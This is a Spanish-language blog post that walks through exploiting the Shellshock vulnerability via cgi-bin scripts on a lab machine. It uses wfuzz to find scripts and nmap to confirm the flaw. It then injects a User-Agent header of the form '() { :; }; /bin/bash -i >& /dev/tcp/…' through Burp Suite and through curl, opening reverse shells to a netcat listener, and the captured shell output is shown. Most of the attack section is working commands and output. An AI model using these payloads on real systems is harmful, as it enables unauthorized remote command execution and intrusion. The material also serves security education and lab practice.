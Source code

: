 ```yaml
---
date: 2022-05-19T01:40:05.000Z
layout: post
comments: true
title: Ataque Shellshock
subtitle: 'a través de cgi-bin'
description: >-
image: >-
    http://imgfz.com/i/LT3baoC.png
optimized_image: >-
  http://imgfz.com/i/LT3baoC.png
category: ciberseguridad
tags: 
  - linux
  - hacking
  - exploit
  - vulnerabilidad
  - cgi-bin
author: Felipe Canales Cayuqueo
paginate: true
---
```


El ataque se Shellshock es una vulnerabilidad de ejecución remota de comandos por medio de bash, es decir, se basa en el hecho de que bash ejecuta incorrectamente los comandos finales cuando importa una definición de función almacenada en una variable de entorno. Para empezar intentaremos reconocer la vulnerabilidad:

* Una manera es observando el código fuente de la página, la cual nos puede entregar pistas sobre el directorio ```cgi-bin```:

  ![1](http://imgfz.com/i/wdlEgfi.png)
  
* Una vez detectado podemos realizar fuzzing para ver que hay tras el directorio ```cgi-bin```:

```bash
┌─[root@kali]─[/shellshock]
└──╼ wfuzz -c -t 300 --hc=404,400,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensions.txt http://10.1.1.26/cgi-bin/FUZZ.FUZ2Z
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.1.1.26/cgi-bin/FUZZ.FUZ2Z
Total requests: 441120

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000003375:   500        16 L     77 W       607 Ch      "shell - sh"                                        
000003252:   500        16 L     77 W       607 Ch      "backup - cgi"                                      

Total time: 0
Processed Requests: 441120
Filtered Requests: 441118
Requests/sec.: 0
```

### Verificación de vulnerabilidad

Procedemos a verificar la vulnerabilidad por medio de nmap, en mi caso voy a ocupar ```shell.sh```, sin embargo podría ocupar ```backup.cgi```, ```admin.cgi```, entre otros que estuvieran disponibles:

```bash
┌─[root@kali]─[/shellshock]
└──╼ nmap 10.1.1.26 -p80 --script=http-shellshock --script-args uri=/cgi-bin/shell.sh
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 01:42 EDT
Nmap scan report for 10.1.1.26
Host is up (0.00041s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

```

### Explotación por BurpSuite

Para explotarlo podemos realizarlo por medio de ```BurpSuite``` y ```CURL```, iniciaremos con el primero de ellos en donde nos pondremos a la escucha a través de un puerto:

```bash
┌─[root@kali]─[/shellshock]
└──╼ nc -nlvp 1234
```
Ahora interceptaremos peticiones en la dirección que hemos encontrado:

![2](http://imgfz.com/i/XbhRtWQ.png)

Y cambiaremos el ```User-Agent``` que se encuentra marcado con el cuadro rojo, por lo siguiente:

```bash
User Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
Procedemos a reemplazar y adaptar el ```User-Agent```:

![3](http://imgfz.com/i/uoBJDHz.png)

Le damos a ```Forward```:

```bash
┌─[root@kali]─[/shellshock]
└──╼ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.1.1.19] from (UNKNOWN) [10.1.1.26] 60756
bash: cannot set terminal process group (540): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3$ whoami
whoami
www-data
bash-4.3$ 
```

Y recibimos respuesta en el puerto que teníamos a la escucha anteriormente.

## Explotación por CURL

Para realizar la explotación por ```CURL``` probaremos ahora ```backup.cgi``` solo para demostrar que también funciona al igual que ```shell.sh```. En este caso nos pondremos también a la escucha:

```bash
┌─[root@kali]─[/shellshock]
└──╼ nc -nlvp 1234
```

Ahora procedemos a realizar lo siguiente por medio de ```CURL``` y nos debería devolver la bash:

```bash
┌─[root@kali]─[/shellshock]
└──╼ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.1.1.19/1234 0>&1' http://10.1.1.26/cgi-bin/backup.cgi

```

Nos va a quedar ejecutándose y el netcat nos respondería con la bash:

```bash
┌─[root@kali]─[/shellshock]
└──╼ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.1.1.19] from (UNKNOWN) [10.1.1.26] 60758
bash: cannot set terminal process group (540): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3$ whoami
whoami
www-data
bash-4.3$ 
```

Y así es como se explotaría un ataque shellshock.
